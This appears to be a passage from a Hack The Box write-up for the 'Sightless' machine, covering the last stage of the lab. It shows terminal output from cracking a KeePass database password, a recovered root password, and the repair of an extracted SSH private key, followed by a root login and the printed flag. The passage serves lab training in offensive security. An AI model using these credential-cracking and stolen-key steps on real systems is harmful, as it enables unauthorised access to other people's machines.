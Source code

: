 ```terminal
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 600000 for all loaded hashes
Cost 2 (version) is 1 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bulldogs         (Database.kdb)     
1g 0:00:00:21 DONE (2024-09-08 13:49) 0.04737g/s 51.53p/s 51.53c/s 51.53C/s kucing..morena
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
The password is bulldogs. This is getting quite long for an easy box, but hey we are almost done !
I'll import it in `keepassxc`, making sure to use import file, because this is a .kdb file meaning it's using KeePass 1.X :
![[keepass_import.png]]
The database only has one entry, Username : root Password : q6gnLTB74L132TMdFCpK However it doesn't work on ssh nor when I `su root`. And `id_rsa` file is attached, and I can save it !
![[keepass_attachment.png]]
```terminal
┌──(samsam㉿pika-pika)-[~/htb/sightless]
└─$ ssh root@sightless.htb -i id_rsa         
Load key "id_rsa": error in libcrypto
```
If we look closely at the id_rsa file, using xxd :
```terminal
┌──(samsam㉿pika-pika)-[~/htb/sightless]
└─$ xxd id_rsa
[...]
00000d40: 3d0d 0a2d 2d2d 2d2d 454e 4420 4f50 454e  =..-----END OPEN
00000d50: 5353 4820 5052 4956 4154 4520 4b45 592d  SSH PRIVATE KEY-
00000d60: 2d2d 2d2d                                ----
```
It's highlighted in my terminal, here it's not, but the bytes `0d 0a` (the second and third bytes , right after the 3d) here are relevant because they are the newline characters in Windows file formats. However in linux it's not the case, we only use `0a`, which is `\n`. We need to strip all `0d` bytes from this file. This can be done using the tool `dos2unix`. We also notice that the id_rsa file is missing an `\n` in the end, which we'll need to add to fix the format.
```terminal
┌──(samsam㉿pika-pika)-[~/htb/sightless]
└─$ dos2unix id_rsa              
dos2unix: converting file id_rsa to Unix format...
┌──(samsam㉿pika-pika)-[~/htb/sightless]
└─$ echo "" >> id_rsa    
┌──(samsam㉿pika-pika)-[~/htb/sightless]
└─$ ssh root@sightless.htb -i id_rsa     
Last login: Sun Sep  8 12:21:57 2024 from 10.10.14.201
root@sightless:~# cat root.txt
6634430c7157e4c226f3841debe7e655
```
This last steps of the box were not beginner friendly as it required some really specific knowledge in the id_rsa file format and the discrepancies between windows and linux. 